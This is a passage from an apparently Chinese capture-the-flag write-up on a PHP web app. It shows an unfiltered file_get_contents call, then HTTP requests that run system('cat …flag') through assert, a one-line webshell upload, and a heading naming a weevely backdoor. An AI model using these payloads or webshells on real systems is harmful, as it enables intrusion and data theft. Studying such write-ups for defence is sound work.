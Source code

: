     $data = Input::only('resolve_file');

    $content = @file_get_contents($data['resolve_file']);
    if ($content)
    {
        $extension       = 'png';
        $folderName      = '/uploads/images/' . date("Ym", time()) .'/'.date("d", time()) .'/'. Auth::user()-&gt;id;
        $destinationPath = public_path() . $folderName;
        $safeName        = str_random(10).'.'.$extension;
        @mkdir($destinationPath, 0755, true);
        @file_put_contents($destinationPath .'/'. $safeName, $content);
        $resp['file_path'] = $folderName .'/'. $safeName;
        $resp['msg'] = "Succeeded!";
        $resp['success'] = true;
    }
    return $resp;
}</pre>

<span class="md-line md-end-block">可以发现这里<span spellcheck="false"><code>file_get_contents</code></span>直接传入了请求参数，而未对其做过滤，因此可能导致任意文件读取。这里可以通过检查<span spellcheck="false"><code>$data['resolve_file']</code></span>的开头是否为<span spellcheck="false"><code>'http'</code></span>并且对<span spellcheck="false"><code>'localhost'</code></span>, <span spellcheck="false"><code>'127.*.*.*'</code></span>等相关的内网域名、IP等进行过滤。</span>

## 0x02 漏洞利用方式 {.md-end-block.md-heading}

### 1. index {.md-end-block.md-heading}

<pre class="lang:default decode:true">GET http://localhost:21000/?method=assert HTTP/1.1
Host: localhost:21000
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Referer: system('cat /home/web/flag/flag')</pre>

### 2. 404 {.md-end-block.md-heading}

<pre class="lang:default decode:true">POST http://localhost:21000/asdadasdaasd HTTP/1.1
Host: localhost:21000
Content-Length: 27
Content-Type: application/x-www-form-urlencoded

notfound=system("cat%20%2Fhome%2Fweb%2Fflag%2Fflag")</pre>

<span class="md-line md-end-block">在比赛现场由于部署时使用了php7, preg_match的r选项已无法使用，因此该漏洞失效。</span>

### 3. upload_image {.md-end-block.md-heading}

<pre class="lang:default decode:true">POST /upload_image</pre>

<span class="md-line md-end-block">直接上传一句话木马，随后通过一句话木马利用。</span>

### 4. weevely in autoload_real.php {.md-end-block.md-heading}
